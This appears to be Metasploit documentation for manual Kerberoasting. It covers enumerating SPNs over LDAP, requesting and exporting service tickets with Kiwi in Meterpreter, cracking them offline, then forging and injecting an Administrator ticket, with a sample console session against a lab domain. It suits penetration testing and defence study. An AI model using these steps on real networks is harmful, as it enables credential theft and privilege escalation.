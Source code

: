 An alternative to the easier `get_user_spns` module above is the more manual process of running the LDAP query module to
find Kerberoastable accounts, requesting service tickets with Kiwi, converting the Kiwi ticket to a format usable by hashcat,
and cracking the hash.

1. Start msfconsole
2. Obtain SPNs associated with user accounts from your target
   1. Do: `use auxiliary/gather/ldap_query`
   2. Do: `set action ENUM_USER_SPNS_KERBEROAST`
   3. Run the module and note the discovered SPNs
3. From your Meterpreter session:
   1. Do: `load kiwi`
   2. Do: Request a kerberos ticket for SPN found by the ldap_query module: `kiwi_cmd kerberos::ask /target:https/TSTWLPT1000000`
   3. Do: `kerberos_ticket_list`
4. Export service tickets using the kiwi extension
   1. Do: `kiwi_cmd kerberos::list /export`
5. Crack the encrypted password in the service ticket using tgsrepcrack.py (more info on this python script below)
   1. Do:  `python3 tgsrepcrack.py passlist.txt 1-40a10000-Administrator@HTTP\~testService-EXAMPLE.COM.kirbi`
6. Rewrite the service tickets using kerberoast.py (more info on this python script below)
   1. Do:  `python3  kerberoast.py -p N0tpassword! -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500`
7. Finally inject the ticket back into RAM using Meterpreter's kiwi extension
   1. `meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi`

First an SPN needs to be found. This can be done in a number of ways - including using metasploit's
very own `auxiliary/gather/ldap_query` module:

```
msf6 > use auxiliary/gather/ldap_query
msf6 auxiliary(gather/ldap_query) > set RHOSTS 172.16.199.235
RHOSTS => 172.16.199.235
msf6 auxiliary(gather/ldap_query) > set BIND_DN DARWIN_CLAY
BIND_DN => DARWIN_CLAY
msf6 auxiliary(gather/ldap_query) > set BIND_PW N0tpassword!
BIND_PW => N0tpassword!
msf6 auxiliary(gather/ldap_query) > set action ENUM_USER_SPNS_KERBEROAST
action => ENUM_USER_SPNS_KERBEROAST
msf6 auxiliary(gather/ldap_query) > run
[*] Running module against 172.16.199.235

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.16.199.235:389 Getting root DSE
dn:
namingcontexts: DC=example,DC=com
namingcontexts: CN=Configuration,DC=example,DC=com
namingcontexts: CN=Schema,CN=Configuration,DC=example,DC=com

...

======================================================================

 Name                  Attributes
 ----                  ----------
 cn                    BERYL_SAVAGE
 samaccountname        BERYL_SAVAGE
 serviceprincipalname  CIFS/OGCWLPT1000000

CN=CAITLIN_CAMPBELL OU=Devices OU=FIN OU=Tier 1 DC=example DC=com
=================================================================

```